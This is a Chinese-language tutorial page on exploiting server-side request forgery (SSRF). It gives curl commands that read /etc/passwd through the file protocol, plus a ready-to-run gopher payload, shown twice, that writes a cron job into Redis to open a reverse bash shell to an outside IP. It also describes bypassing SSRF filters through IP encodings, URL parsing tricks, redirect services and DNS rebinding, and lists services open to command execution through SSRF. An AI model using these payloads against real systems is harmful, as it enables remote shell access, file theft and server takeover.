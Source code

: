 SSRF
================================

漏洞危害
--------------------------------
1. 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息;
2. 攻击运行在内网或本地的应用程序（比如溢出）;
3. 对内网Web应用进行指纹识别，通过访问默认文件实现;
4. 攻击内外网的Web应用，主要是使用Get参数就可以实现的攻击（比如Struts2漏洞利用，SQL注入等）;
5. 利用File协议读取本地文件。


利用方式
--------------------------------
SSRF利用存在多种形式以及不同的场景，针对不同场景可以使用不同的绕过方式。

以curl为例

::

    # dict protocol (操作Redis) 

    curl -vvv 'dict://127.0.0.1:6379/info' # file protocol (任意文件读取) 

    curl -vvv 'file:///etc/passwd' # gopher protocol (一键反弹Bash) 

    # * 注意: 链接使用单引号，避免$变量问题

    curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a' 


过滤绕过
--------------------------------

更改IP地址写法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

一些开发者会通过对传过来的URL参数进行正则匹配的方式来过滤掉内网IP，如采用如下正则表达式：
::

    ^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$

    ^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$

    ^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$

对于这种过滤我们可以采用改编IP的写法的方式进行绕过，例如192.168.0.1这个IP地址我们可以改写成：

::

    8进制格式：0300.0250.0.1

    16进制格式：0xC0.0xA8.0.1

    10进制整数格式：3232235521

    16进制整数格式：0xC0A80001

还有一种特殊的省略模式，例如10.0.0.1这个IP可以写成10.1


利用解析URL所出现的问题
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。这时候可能会出现对URL参数解析不当，导致可以绕过过滤。

http://www.baidu.com@192.168.0.1/

当后端程序通过不正确的正则表达式（比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容都是192.168.0.1上的内容。


利用302跳转
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果后端服务器在接收到参数后，正确的解析了URL的host，并且进行了过滤，我们这个时候可以使用302跳转的方式来进行绕过。

(1) 在网络上存在一个很神奇的服务，http://xip.io 当我们访问这个网站的子域名的时候，例如192.168.0.1.xip.io，就会自动重定向到192.168.0.1。

(2) 由于上述方法中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，我们可以通过短地址的方式来绕过。经过测试发现新浪，百度的短地址服务并不支持IP模式，不过tinyurl.com所提供的短地址服务支持IP方式。

通过各种非HTTP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

(1) GOPHER协议：通过GOPHER我们在一个URL参数中构造Post或者Get请求，从而达到攻击内网应用的目的。例如我们可以使用GOPHER协议对与内网的Redis服务进行攻击，可以使用如下的URL：

::

    gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

(2) File协议：File协议主要用于访问本地计算机中的文件，我们可以通过类似file:///文件路径这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过file:///d:/1.txt 来访问D盘中1.txt的内容


DNS Rebinding
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一个常用的防护思路是：对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就pass掉。

但是在整个过程中，第一次去请求DNS服务进行域名解析到第二次服务端去请求URL之间存在一个时间查，利用这个时间差，可以进行DNS重绑定攻击。

要完成DNS重绑定攻击，我们需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0。这样就可以进行攻击了，完整的攻击流程为：

    (1) 服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP

    (2) 对于获得的IP进行判断，发现为非黑名单IP，则通过验证

    (3) 服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。

    (4) 由于已经绕过验证，所以服务器端返回访问内网资源的结果。


可能利用的协议
--------------------------------
- ftp、ftps （FTP爆破） 
- tftp（UDP协议扩展） 
- imap/imaps/pop3/pop3s/smtp/smtps（爆破邮件用户名密码） 
- rtsp - smb/smbs （连接SMB） 
- telnet 
- 连接SSH/Telnet 
- http、https - 内网服务探测 
- 网络服务探测 
- ShellShock命令执行 
- JBOSS远程Invoker war命令执行 
- Java调试接口命令执行 
- axis2-admin部署Server命令执行 
- Jenkins Scripts接口命令执行 
- Confluence SSRF 
- Struts2一堆命令执行 
- counchdb WEB API远程命令执行 
- mongodb SSRF 
- docker API远程命令执行 
- php_fpm/fastcgi 命令执行 
- tomcat命令执行 
- Elasticsearch引擎Groovy脚本命令执行 
- WebDav PUT上传任意文件 
- WebSphere Admin可部署war间接命令执行 
- Apache Hadoop远程命令执行 
- zentoPMS远程命令执行 
- HFS远程命令执行 
- glassfish任意文件读取和war文件部署间接命令执行


ref
--------------------------------
http://www.91ri.org/17111.html